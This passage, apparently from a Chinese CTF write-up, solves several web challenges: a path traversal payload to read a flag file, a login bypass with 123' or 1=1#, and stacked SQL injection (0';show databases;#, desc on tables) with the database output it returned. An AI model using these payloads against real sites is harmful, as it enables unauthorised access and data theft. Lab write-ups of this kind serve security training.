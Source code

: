 输入`payload：?file=hint.php`，得到`flag not here, and flag in ffffllllaaaagggg`，因为我们并不知道`ffffllllaaaagggg`位于哪个目录下面，所以依次尝试增加`../`，最终构造的`payload：?file=hint.php?../../../../../ffffllllaaaagggg`，这里也可以把`hint.php`换成`source.php`

# [极客大挑战 2019]EasySQL

输入`username=123 &password=123`，回显为`NO,Wrong username password！！！`

输入`username=123' &password=123`，出现语法报错，说明存在注入

继续输入,闭合单引号，构造永真的语句，`username=123' or 1=1# &password=123`，成功拿到flag

# [强网杯 2019]随便注

`1'`SQL语句报错，`1'#`正常回显，然后查询字段数，`1' order by 4#`，SQL语句报错，只有3个字段，尝试联合注入`1' union select 1,2,database()#`，回显如下

```
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);//过滤掉的语句
```

看到`select`被过滤了，想到应该用堆叠注入绕过

查询库名，`0';show databases;#`，得到数据库有

```
string(11) "ctftraining"
string(18) "information_schema"
string(5) "mysql"
string(18) "performance_schema"
string(9) "supersqli"
string(4) "test"
```

查询表名，`0';show tables;#`，得到该数据库下的表名有

```
string(16) "1919810931114514"
string(5) "words"
```

分别查看两张表里面的内容，这里用`desc`降序获取数据表的结构，如下

```
0';desc words;#                              0';desc `1919810931114514`;# 
array(6) {                                   array(6) {
  [0]=>                                        [0]=>
  string(2) "id"                               string(4) "flag"
  [1]=>                                        [1]=>
  string(7) "int(10)"                          string(12) "varchar(100)"
  [2]=>                                        [2]=>
  string(2) "NO"                               string(2) "NO"
  [3]=>                                        [3]=>
  string(0) ""                                 string(0) ""
  [4]=>                                        [4]=>
  NULL                                         NULL
  [5]=>                                        [5]=>
  string(0) ""                                 string(0) ""
}                                            }
array(6) {
  [0]=>
  string(4) "data"
  [1]=>
  string(11) "varchar(20)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
```